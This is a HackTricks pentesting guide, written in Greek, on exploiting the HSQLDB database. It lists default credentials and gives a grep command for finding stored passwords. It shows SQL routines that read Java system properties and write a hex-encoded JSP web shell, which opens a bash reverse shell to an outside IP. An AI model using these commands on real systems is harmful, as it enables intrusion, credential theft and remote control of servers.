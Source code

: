{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basic Information

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** είναι το κορυφαίο σύστημα σχεσιακής βάσης δεδομένων SQL γραμμένο σε Java. Προσφέρει μια μικρή, γρήγορη, πολυνηματική και συναλλαγματική μηχανή βάσης δεδομένων με πίνακες μνήμης και δίσκου και υποστηρίζει ενσωματωμένες και διακομιστικές λειτουργίες.

**Default port:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Πληροφορίες

### Προεπιλεγμένες Ρυθμίσεις

Σημειώστε ότι από προεπιλογή αυτή η υπηρεσία πιθανώς εκτελείται στη μνήμη ή είναι συνδεδεμένη στο localhost. Αν το βρήκατε, πιθανώς εκμεταλλευτήκατε μια άλλη υπηρεσία και ψάχνετε να κλιμακώσετε τα δικαιώματα.

Οι προεπιλεγμένες διαπιστευτήρια είναι συνήθως `sa` με κενό κωδικό πρόσβασης.

Αν έχετε εκμεταλλευτεί μια άλλη υπηρεσία, αναζητήστε πιθανές διαπιστευτήρια χρησιμοποιώντας
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Σημειώστε προσεκτικά το όνομα της βάσης δεδομένων - θα το χρειαστείτε για να συνδεθείτε.

# Συλλογή Πληροφοριών

Συνδεθείτε στην DB instance κατεβάζοντας το [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) και εξάγοντας το `hsqldb/lib/hsqldb.jar`. Εκτελέστε την εφαρμογή GUI \(eww\) χρησιμοποιώντας `java -jar hsqldb.jar` και συνδεθείτε στην instance χρησιμοποιώντας τα ανακαλυφθέντα/αδύναμα διαπιστευτήρια.

Σημειώστε ότι το URL σύνδεσης θα μοιάζει κάπως έτσι για ένα απομακρυσμένο σύστημα: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Τέχνες

## Ρουτίνες Γλώσσας Java

Μπορούμε να καλέσουμε στατικές μεθόδους μιας κλάσης Java από το HSQLDB χρησιμοποιώντας Ρουτίνες Γλώσσας Java. Σημειώστε ότι η καλούμενη κλάση πρέπει να είναι στο classpath της εφαρμογής.

Οι JRTs μπορούν να είναι `functions` ή `procedures`. Οι συναρτήσεις μπορούν να καλούνται μέσω SQL δηλώσεων αν η μέθοδος Java επιστρέφει μία ή περισσότερες SQL-συμβατές πρωτότυπες μεταβλητές. Καλούνται χρησιμοποιώντας τη δήλωση `VALUES`.

Αν η μέθοδος Java που θέλουμε να καλέσουμε επιστρέφει void, πρέπει να χρησιμοποιήσουμε μια διαδικασία που καλείται με τη δήλωση `CALL`.

## Ανάγνωση Ιδιοτήτων Συστήματος Java

Δημιουργήστε συνάρτηση:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Εκτέλεση συνάρτησης:
```text
VALUES(getsystemproperty('user.name'))
```
Μπορείτε να βρείτε μια [λίστα με τις ιδιότητες του συστήματος εδώ](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Γράψτε Περιεχόμενο σε Αρχείο

Μπορείτε να χρησιμοποιήσετε το `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java gadget που βρίσκεται στο JDK \(αυτόματα φορτωμένο στη διαδρομή κλάσης της εφαρμογής\) για να γράψετε στοιχεία κωδικοποιημένα σε hex στο δίσκο μέσω μιας προσαρμοσμένης διαδικασίας. **Σημειώστε το μέγιστο μέγεθος των 1024 bytes**.

Δημιουργήστε διαδικασία:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Εκτέλεση διαδικασίας:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
